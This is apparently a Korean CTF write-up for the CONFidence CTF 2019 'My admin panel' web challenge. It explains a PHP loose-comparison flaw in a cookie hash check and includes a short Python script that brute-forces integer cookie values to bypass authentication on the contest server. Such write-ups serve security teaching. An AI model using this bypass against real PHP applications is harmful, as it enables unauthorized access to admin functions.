 ```yaml
---
layout: post
title: ! "[CONFidence CTF 2019] My admin panel"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - ctf
  - write-up
---
```


Teaser CONFidence CTF 2019의 `My admin panel` 문제이다.
[Link](https://gameserver.zajebistyc.tf/admin/)
![]({{ site.baseurl }}/assets/posts/ctf/CONFidence/myadminpanel.png)

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

```

코드를 보면 otadmin 쿠키가 존재하지 않으면 "Not authenticated."가 뜬다.
디렉토리에서 바로 login.php 파일에 접근했을 때 뜨는 메시지와 동일하다.

otadmin 쿠키가 정규식 [0-9A-Z\"]와 일치하지 않거나 session_data가 NULL이면 "COOKIE TAMPERING xD IM A SECURITY EXPERT"가 뜬다.

![]({{ site.baseurl }}/assets/posts/ctf/CONFidence/myadminpanel_burp.png)
![]({{ site.baseurl }}/assets/posts/ctf/CONFidence/myadminpanel_hint.png)

hash 값과 strtoupper(MD5($cfg_pass))가 일치하지 않으면 위와 같이 힌트를 주는데
이 부분에서 loose comparison을 사용한다.
PHP는 loose comparision으로 정수와 문자열을 비교할 때 정수를 문자열의 첫 번째 숫자와 비교한다.
EX) 123 !== "123", 123 == "123aaa"

![]({{ site.baseurl }}/assets/posts/ctf/CONFidence/loose_comparision.png)

`0006464640640064000646464640006400640640646400` 에서 앞부분 세 자리를 Bruteforce 하면 될 것 같다.


```py
import requests
  
url = "https://gameserver.zajebistyc.tf/admin/login.php"
s = requests.Session()

for i in range(500):
    r = s.get(url, cookies={'otadmin':'{"hash": '+str(i)+'}'})
    if "GIVE" not in r.text:
        print(r.text)
        print("HASH : "+str(i))
        break

```

![]({{ site.baseurl }}/assets/posts/ctf/CONFidence/myadminpanel_flag.png)

플래그 !! 
